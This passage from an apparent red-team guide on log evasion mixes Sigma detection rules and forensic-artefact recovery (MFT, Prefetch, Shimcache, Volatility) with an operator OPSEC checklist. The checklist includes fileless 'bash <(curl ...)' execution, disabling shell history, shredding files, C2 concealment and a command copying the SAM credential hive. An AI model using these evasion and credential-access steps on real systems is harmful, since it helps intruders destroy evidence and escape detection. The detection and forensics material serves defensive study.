| sort -_time
```

### 7.2 Sigma YAML Rules

```yaml
# Sigma Rule: Security Event Log Cleared
title: Security Event Log Cleared
id: d99b79d2-0a6f-4f46-ad8b-260b6e17f982
status: stable
description: Detects clearing of the Windows Security event log (Event ID 1102)
references:
  - https://attack.mitre.org/techniques/T1070/001/
author: Sigma Project
date: 2020/01/01
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 1102
  condition: selection
falsepositives:
  - Legitimate log management activities
  - Log rotation scripts
level: high
tags:
  - attack.defense_evasion
  - attack.t1070.001
```

```yaml
# Sigma Rule: PowerShell Timestomping
title: PowerShell File Timestomping
id: c7da8edc-49ae-45a2-9e61-9fd860e4e73d
status: experimental
description: Detects modification of file timestamps via PowerShell .NET properties
references:
  - https://attack.mitre.org/techniques/T1070/006/
author: Sigma Community
date: 2021/06/01
logsource:
  product: windows
  service: powershell
detection:
  selection:
    EventID: 4104
    ScriptBlockText|contains|all:
      - 'CreationTime'
      - 'LastWriteTime'
  condition: selection
falsepositives:
  - Backup and archiving scripts
level: medium
tags:
  - attack.defense_evasion
  - attack.t1070.006
```

```yaml
# Sigma Rule: Auditd Service Stopped
title: Auditd Service Stopped
id: f5b12e5a-3c6d-4e7b-a9f2-1b4c2d8e0f12
status: stable
description: Detects stopping of the Linux audit daemon, which may indicate log tampering
references:
  - https://attack.mitre.org/techniques/T1562/001/
author: Sigma Community
date: 2022/01/01
logsource:
  product: linux
  service: auditd
detection:
  selection:
    type: SYSCALL
    exe: '/usr/sbin/auditd'
    a0: 'stop'
  selection_systemd:
    MESSAGE|contains: 'auditd.service: Deactivated successfully'
  condition: selection OR selection_systemd
falsepositives:
  - Legitimate maintenance windows
level: high
tags:
  - attack.defense_evasion
  - attack.t1562.001
```

### 7.3 Log Completeness Checks

Defenders do not rely solely on alert rules — they also monitor for the *absence* of expected data:

- **Sequence number gaps** — Windows security events are sequentially numbered per log channel. A gap indicates deleted events (even without an Event ID 1102).
- **Timestamp anomalies** — Events with timestamps that precede or follow expected ranges (e.g., a file modification timestamp before the file's creation timestamp) flag timestomping.
- **Size anomalies** — A security log that suddenly drops from 50 MB to 1 MB, or auth.log that has no entries for a 6-hour window during business hours.
- **Event rate anomalies** — Baseline event rates per host. A machine that generates 1,000 events/hour and suddenly generates 0 is an anomaly.
- **Missing periodic events** — Scheduled tasks, service heartbeats, and policy refresh events occur on predictable schedules. Absence signals interference.

---

## 8. Detection vs Evasion Diagram



---

## 9. OPSEC Checklist

### Pre-Operation

- [ ] Review scope and rules of engagement — confirm which hosts are in-scope for log manipulation
- [ ] Identify SIEM technology in use (Splunk, Sentinel, QRadar, Elastic) from OSINT/scope documentation
- [ ] Identify EDR solution (CrowdStrike, SentinelOne, Defender for Endpoint, Carbon Black)
- [ ] Determine whether Windows Event Forwarding (WEF) is deployed in the environment
- [ ] Confirm whether Sysmon is deployed and note the configuration version
- [ ] Identify auditd rules and log forwarding agents on Linux targets
- [ ] Plan C2 infrastructure to blend with target environment (mimic known software UA strings)
- [ ] Use C2 redirectors to protect true C2 infrastructure from attribution
- [ ] Stage only memory-resident tools; avoid dropping persistent executables unless necessary
- [ ] Prepare timestomped and signed (if possible) payloads before operation begins
- [ ] Verify that all team member IPs, domains, and infrastructure are not in known threat intel feeds

### During Operation

- [ ] Run payload from memory where possible (reflective injection, .NET load, bash <(curl ...))
- [ ] Prefer LOLBin techniques over custom tooling to blend into baseline noise
- [ ] Avoid running as SYSTEM unless required — SYSTEM activity is more closely monitored
- [ ] Do not clear logs unless forwarding is confirmed to be absent
- [ ] Use `export HISTFILE=/dev/null` immediately upon obtaining a Linux shell
- [ ] Minimise time spent on target — reduce dwell time to limit the event window
- [ ] Use encrypted C2 over standard ports (443/80) with malleable profiles
- [ ] Do not reuse infrastructure across engagements — rotate domains and IPs
- [ ] Monitor defensive response (if purple team) — if you are detected, document the detection vector
- [ ] Stage tools in `/dev/shm` or `C:\Windows\Temp` using innocuous filenames
- [ ] When moving laterally, use existing credentials (Kerberos tickets) rather than creating new accounts
- [ ] If you must create accounts, delete them promptly and remove from all groups

### Post-Operation

- [ ] Remove all dropped files from disk targets
- [ ] Securely delete files using `shred -u -z -n 3` on Linux targets
- [ ] Clear bash/zsh history on every Linux shell obtained
- [ ] Remove ADS (Alternate Data Streams) on Windows targets
- [ ] Delete scheduled tasks or services created for persistence
- [ ] Remove registry keys created for persistence or payload storage
- [ ] Confirm lateral movement paths are closed (reset credentials, revoke tickets)
- [ ] Delete any test/backdoor accounts created during the operation
- [ ] Verify cleanup completeness using the same forensic tools a defender would use
- [ ] Document all artefacts that could not be removed (inform the client in the report)
- [ ] Decommission C2 infrastructure after the engagement concludes

---

## 10. Artifacts That Survive Log Clearing

> **Warning:** The items in this section are frequently overlooked by attackers. Defenders and incident responders routinely recover evidence from these sources even after aggressive log clearing.

### 10.1 NTFS MFT and USN Journal

The NTFS Master File Table (MFT) records metadata for every file and directory. The USN (Update Sequence Number) Change Journal records every file system change.

```bash
# Extract MFT using MFTECmd (Eric Zimmermann tools)
MFTECmd.exe -f C:\$MFT --csv C:\output\mft_output --csvf mft.csv

# Parse USN Journal
MFTECmd.exe -f "C:\$Extend\$UsnJrnl:$J" --csv C:\output\usn_output

# Mount raw image and extract MFT with Autopsy or The Sleuth Kit
istat image.dd 2  # MFT is typically inode 0
fls -r -m "/" image.dd | grep -i "payload\|evil\|temp"

# Extract MFT from live system using Arsenal Image Mounter or FTK Imager
# (raw copy of $MFT while system is live)

# Use Velociraptor for live MFT hunting
# VQL query to find files modified in a time range
SELECT FullPath, Size, Modified, Created, Accessed
FROM glob(globs="C:/**")
WHERE Modified > "2024-01-01" AND Modified < "2024-01-02"
```

### 10.2 Windows Prefetch Files

| Property | Value |
|---|---|
| Location | `C:\Windows\Prefetch\` |
| Format | `.pf` files, named `EXECUTABLENAME-HASH.pf` |
| Hash | Based on executable path (not content) |
| Contents | Last 8 execution timestamps, loaded DLLs, accessed files, volume serial numbers |
| Enabled by default | Yes on Workstations; disabled by default on Servers |
| Forensic tool | PECmd.exe (Eric Zimmermann), WinPrefetchView (NirSoft) |
| Retention | 128 most recently executed programs (Win8+) |

> **Note:** Even if the original executable is deleted, its Prefetch file remains and records exactly when it was run and which files it accessed. Disabling Prefetch only prevents *new* entries — existing `.pf` files remain.

### 10.3 Registry Hives

| Registry Location | Forensic Value |
|---|---|
| `NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs` | Recently opened files per extension |
| `NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` | Commands typed in the Run dialog |
| `HKLM\SYSTEM\CurrentControlSet\Services` | Installed services (persistence) |
| `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache` | Shimcache — all executed executables |
| `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Amcache.hve` | Amcache — install time, hash, publisher |
| `NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Run` | User-level autorun entries |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` | System-level autorun entries |
| `NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\MuiCache` | Programs executed by user (display names) |
| `NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist` | GUI program execution counts and times (ROT13 encoded) |
| `HKLM\SAM\SAM\Domains\Account\Users` | Local user account hashes |

### 10.4 Shimcache and Amcache

```bash
# Parse Shimcache (AppCompatCache) with AppCompatCacheParser
AppCompatCacheParser.exe -f C:\Windows\System32\config\SYSTEM --csv C:\output\shimcache

# Parse Amcache with AmcacheParser
AmcacheParser.exe -f C:\Windows\appcompat\Programs\Amcache.hve --csv C:\output\amcache

# Extract from offline registry hive
AppCompatCacheParser.exe -f \\server\c$\Windows\System32\config\SYSTEM --csv C:\output\

# Live system extraction (requires admin)
REG SAVE HKLM\SYSTEM C:\Temp\SYSTEM.hive
AppCompatCacheParser.exe -f C:\Temp\SYSTEM.hive --csv C:\output\shimcache
```

### 10.5 Volume Shadow Copies

```bash
# List available shadow copies
vssadmin list shadows
Get-WmiObject Win32_ShadowCopy | Select-Object DeviceObject, VolumeName, InstallDate

# Mount a shadow copy to access previous file versions
mklink /d C:\shadow \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

# Access files from shadow copy directly
cmd /c copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" C:\output\SAM

# Use ShadowExplorer GUI tool for browsing shadow copies
# Download from: https://www.shadowexplorer.com/

# Python vshadow mounting (vss module)
# Forensic tools: Arsenal Image Mounter, FTK Imager can mount VSS snapshots
```

### 10.6 Network Infrastructure Logs

| Source | Log Location / System | What It Captures | Attacker Can Clear? |
|---|---|---|---|
| Perimeter Firewall | Vendor SIEM / syslog server | Source IP, destination IP, port, bytes, action | No — external system |
| Web Proxy | Proxy server logs / SIEM | Full URLs, user-agent, source, destination, response codes | No — external system |
| DNS | Internal DNS server / SIEM | All DNS queries with timestamp and source IP | No — external system |
| NetFlow / IPFIX | Network TAP / SIEM | Source/dest IP, bytes, duration, protocol | No — network device |
| EDR Cloud Console | Vendor cloud (CrowdStrike, SentinelOne, etc.) | Process execution, network, registry, file events | No — cloud-hosted |
| Active Directory DC | Security event log on DC | Kerberos TGT/TGS, LDAP queries, logon events | Only if DC is compromised |
| DHCP Server | DHCP logs / SIEM | IP to MAC address mapping with lease times | No — server logs |
| VPN Concentrator | Syslog / SIEM | Authentication events, assigned IPs, duration | No — appliance logs |

### 10.7 Memory Forensics with Volatility

```bash
# Acquire memory image (Linux — using LiME)
insmod lime-$(uname -r).ko "path=/tmp/memory.lime format=lime"

# Acquire memory image (Windows — using WinPmem or Magnet RAM Capture)
winpmem_mini_x64.exe memory.raw

# Volatility 3 — List running processes
python3 vol.py -f memory.raw windows.pslist.PsList

# Identify injected code (process hollowing, reflective DLL)
python3 vol.py -f memory.raw windows.malfind.Malfind

# Dump process memory for analysis
python3 vol.py -f memory.raw windows.memmap.MemMap --pid 1234 --dump

# Recover command history from cmd.exe (console history)
python3 vol.py -f memory.raw windows.cmdline.CmdLine
python3 vol.py -f memory.raw windows.consoles.Consoles

# Find network connections
python3 vol.py -f memory.raw windows.netstat.NetStat

# Scan for registry hives in memory
python3 vol.py -f memory.raw windows.registry.hivelist.HiveList

# Linux memory analysis — list bash history from memory
python3 vol.py -f memory.lime linux.bash.Bash

# Linux — list active network connections
python3 vol.py -f memory.lime linux.netstat.Netstat
```

---

## 11. When NOT to Clear Logs

Clearing logs is almost never the correct first action and should be considered carefully before execution.

**Do not clear logs when:**

1. **Logs are already being forwarded** — WEF, Splunk UF, or Elastic Agent are active. Your cleanup attempt generates alerts, and the original events are already in the SIEM. The clearance event is now a high-fidelity indicator pointing directly at you.

2. **The SOC has real-time monitoring** — In a mature SOC, alert latency is under 60 seconds. Log clearing after initial access is likely *after* an alert has already been triggered. You are cleaning up evidence the analyst already has.

3. **Cleanup creates more noise than your activity** — Disabling Sysmon, stopping auditd, or running `wevtutil cl Security` are significantly louder events than most lateral movement techniques. A Kerberoasting attempt generates fewer alerts than attempting to clear logs.

4. **Compliance-regulated environments** — PCI-DSS, HIPAA, SOX, and similar frameworks require immutable log retention. Clearing logs in these environments may trigger mandatory breach reporting and forensic investigation regardless of whether your activity was detected.

5. **When the engagement specifically tests detection capabilities** — If the engagement scope includes "test the SOC's ability to detect our activity," clearing logs defeats the purpose and reduces the value delivered to the client.

6. **When you have not confirmed your cleanup covers all sources** — Partial cleanup is worse than no cleanup. If you clear the Security log but leave the Sysmon log, you have confirmed your presence (via the 1102 event) and left a detailed forensic trail.

> **Note:** The Golden Rule of log evasion: **operate in a way that never generates the log in the first place**. Memory-only payloads, encrypted HTTPS C2, LOLBin techniques, and minimal footprint operations are always preferable to post-hoc log deletion. If you have to think about clearing logs, your operational security posture already needs improvement.

---

## 12. References & Further Reading

| Resource | Type | Focus |
|---|---|---|
| [MITRE ATT&CK T1070](https://attack.mitre.org/techniques/T1070/) | Framework | Indicator Removal — parent technique for all log evasion |
| [MITRE ATT&CK T1070.001](https://attack.mitre.org/techniques/T1070/001/) | Framework | Clear Windows Event Logs |
| [MITRE ATT&CK T1070.002](https://attack.mitre.org/techniques/T1070/002/) | Framework | Clear Linux or Mac System Logs |
| [MITRE ATT&CK T1070.006](https://attack.mitre.org/techniques/T1070/006/) | Framework | Timestomp |
| [MITRE ATT&CK T1562](https://attack.mitre.org/techniques/T1562/) | Framework | Impair Defenses (auditd, EDR, WEF) |
| [MITRE ATT&CK T1055](https://attack.mitre.org/techniques/T1055/) | Framework | Process Injection (fileless execution) |
| [Eric Zimmermann Tools (EZ Tools)](https://ericzimmerman.github.io/) | Forensic Tools | MFTECmd, AppCompatCacheParser, AmcacheParser, PECmd, LECmd |
| [Volatility Framework](https://www.volatilityfoundation.org/) | Forensic Tool | Memory forensics for Windows and Linux |
| [SigmaHQ Rules Repository](https://github.com/SigmaHQ/sigma) | Detection Rules | Community Sigma rules for SIEM translation |
| [LOLBins Project — LOLBAS](https://lolbas-project.github.io/) | Reference | Windows Living-off-the-Land Binaries and Scripts |
| [GTFOBins](https://gtfobins.github.io/) | Reference | Unix binaries for privilege escalation and evasion |
| [The Sleuth Kit + Autopsy](https://www.sleuthkit.org/) | Forensic Tool | Disk image analysis, MFT parsing, timeline analysis |
| [Sysmon Configuration — SwiftOnSecurity](https://github.com/SwiftOnSecurity/sysmon-config) | Configuration | Production-ready Sysmon config for defenders |
| [Windows Event Log Analysis — SANS](https://www.sans.org/white-papers/windows-event-log-analysis/) | White Paper | Comprehensive Windows event log forensics guide |
| [Art of Memory Forensics](https://www.wiley.com/en-us/The+Art+of+Memory+Forensics-p-9781118825099) | Book | Detecting malware and threats in Windows, Linux, and Mac memory |
| [LiME — Linux Memory Extractor](https://github.com/504ensicsLabs/LiME) | Tool | Loadable kernel module for Linux memory acquisition |
| [Auditd Configuration Best Practices — ANSSI](https://www.ssi.gouv.fr/guide/recommandations-de-securite-pour-la-journalisation-des-systemes-unix/) | Guide | Linux audit daemon configuration for security monitoring |
